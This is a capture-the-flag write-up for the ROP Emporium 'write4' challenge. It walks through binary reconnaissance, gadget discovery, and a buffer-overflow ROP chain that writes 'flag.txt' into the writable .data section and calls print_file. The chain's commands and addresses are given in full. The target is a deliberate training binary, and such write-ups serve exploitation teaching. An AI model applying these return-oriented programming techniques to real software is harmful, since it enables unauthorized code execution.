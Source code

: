 # write4 challenge

https://ropemporium.com/challenge/write4.html

## Blind test

We really sought to understand it without any help other than that provided... But it was hard !

> wget https://ropemporium.com/binary/write4.zip <br>
> unzip write4.zip <br>
> checksec write4 <br>
> strings write4 <br>

Nothing really relevant from thoses commands, there is literally no strings to exploit on this. Going to **gdb** must necessarily provide us with more information:

> gdb write4 <br>
> info func <br>

There is our pwnme being dynamically linked through *PLT* mechanism as we digged into on previous *callme* challenge. It means that getting assembly code from `disas` both **pwnme@plt** and new **print_file@plt** would just show us thoses assembly instructions from *.plt* section that is in charge to resolve the symbol onto *.got.plt*. 

There is also the **usefulFunction** with its **print_file@plt** call; the only argument get load to %rdi register from *0x4006b4*.
> x/s 0x4006b4 <br>
> 0x4006b4: "nonexistent"

In fact, we shall haved use the:
> rabin2 -z write4  

Rabin2 can also give us much more information than gdb about sections:
> rabin2 -S write4 <br>

We can locate our last argument for **print_file@plt** onto the *.rodata*, that have read-only permission. As suggested on the challenge, we shall rather use the *.data* section that is have read and write permissions.
> rabin2 -S write4 <br>
> [Sections] <br>
> <br>
> nth paddr        size vaddr       vsize perm type        name <br>
> ――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――― <br>
> 23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data

## Inspecteur gadget

On other side, we have the usefulGadgets, that is nothing more than some instructions for `mov` instruction that take whatever is in %r15 to the location from %r14:
> 0x0000000000400628 <+0>:&emsp;mov %r15,(%r14)

This would be our ROP gadget, but not the only one ! As for *callme* challenge, we need some gadget to pop values from stack to thoses specifics registers. Using ropper we identified exactly what we need:
> ropper --file write4 --search "pop" <br>
> 0x0000000000400690:&emsp;pop r14; pop r15; ret;
> 0x0000000000400693:&emsp;pop rdi; ret;

We also identified one gadget to pop stack element to %rdi register, that will be our way to call **print_file@plt**, as we did with *callme* challenge.


## The solution

We will use the exact same solution as from *callme* challenge, namely by using different files generated with binject:
1. To overflow (it is still the same as for *callme* challenge):
> binject -of ovf.bin -ns 40 A

2. To get r14 and r15 values from stack with `pop` gadget:
> binject -of flg.bin -x64 400690 -x64 601028 -s flag.txt

3. To write content from r15 to r14 location with `mov` gadget:
> binject -of mem.bin -if flg.bin -x64 400628

4. To load parameter from memory on rdi:
> binject -of prm.bin -x64 400693 -x64 601028

5. To call the function:
> binject -of cll.bin -if prm.bin -x64 400510

6. Put it all together:
> binject -of ola.bin -if ovf.bin -if mem.bin -if cll.bin

Here we go:

> Thank you! <br>
> ROPE{a_placeholder_32byte_flag!} <br>
> Segmentation fault